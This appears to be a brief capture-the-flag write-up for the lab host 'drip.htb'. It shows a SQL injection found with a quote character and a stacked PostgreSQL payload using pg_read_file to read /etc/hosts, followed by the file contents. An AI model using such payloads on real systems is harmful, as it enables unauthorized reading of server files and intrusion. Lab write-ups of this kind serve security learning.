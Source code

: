 # SQL-injection by bcase
There is a obvious sql-injection here when I search `5001'`
![](images/Pasted%20image%2020250310124457.png)

Let's read the /etc/hosts file with the payload `''; SELECT pg_read_file('/etc/hosts', 0, 2000);`
![](images/Pasted%20image%2020250310124638.png)
```
127.0.0.1	localhost drip.htb mail.drip.htb dev-a3f1-01.drip.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
```